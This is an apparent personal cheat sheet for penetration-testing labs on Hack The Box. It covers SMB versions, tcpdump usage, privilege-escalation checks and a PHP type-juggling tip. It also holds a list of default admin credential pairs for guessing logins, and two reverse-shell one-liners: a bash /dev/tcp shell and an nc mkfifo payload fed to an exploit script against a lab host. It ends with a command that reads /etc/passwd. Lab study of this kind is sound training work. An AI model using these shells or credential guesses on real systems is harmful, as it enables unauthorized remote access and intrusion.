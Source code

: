 
#### Script for FTP 
```shell-session
find / -type f -name ftp* 2>/dev/null | grep scripts
```


### SMB
| **SMB Version** | **Supported**                       | **Features**                                                           |
| --------------- | ----------------------------------- | ---------------------------------------------------------------------- |
| CIFS            | Windows NT 4.0                      | Communication via NetBIOS interface                                    |
| SMB 1.0         | Windows 2000                        | Direct connection via TCP                                              |
| SMB 2.0         | Windows Vista, Windows Server 2008  | Performance upgrades, improved message signing, caching feature        |
| SMB 2.1         | Windows 7, Windows Server 2008 R2   | Locking mechanisms                                                     |
| SMB 3.0         | Windows 8, Windows Server 2012      | Multichannel connections, end-to-end encryption, remote storage access |
| SMB 3.0.2       | Windows 8.1, Windows Server 2012 R2 |                                                                        |
| SMB 3.1.1       | Windows 10, Windows Server 2016     | Integrity checking, AES-128 encryption                                 |
```
sudo tcpdump -i tun0 port 389
```

- sudo: Run this via root also known as admin. 
- tcpdump: Is the program or software that is Wireshark except, it's a command line version. 
- -i: Selecting interface. (Example eth0, wlan, tun0) 
- port 389: Selecting the port we are listening on.

- admin:admin 
- administrator:administrator 
- admin:administrator 
- admin:password 
- administrator:password

Every ssh key save in id_rsa and `chmod 400` to make it private

Open text file in 
	Window: type
	Linux: cat, less

#### Privilege Escalation
Window: whoami /priv
Linux: sudo -l

tac: cat but in reverse

PHP has Type Juggling
TLDR: check for not empty `==` 
"A" == True -> True


### Reverse shell
```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/2408 0>&1'
```
```
python3 poc.py http://crm.board.htb admin admin 'sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.7 2408 >/tmp/f'
```

```
cat /etc/passwd | grep /home
```